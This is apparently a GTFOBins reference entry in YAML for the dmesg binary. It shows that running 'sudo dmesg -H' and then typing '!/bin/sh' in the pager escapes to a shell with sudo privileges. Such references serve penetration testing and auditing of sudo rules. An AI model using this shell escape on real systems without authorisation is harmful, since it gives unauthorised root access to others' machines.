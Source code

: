```yaml
---
name: dmesg
description: |
  This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
functions:
  sudo:
    - code: |
        sudo dmesg -H
        !/bin/sh
---
```

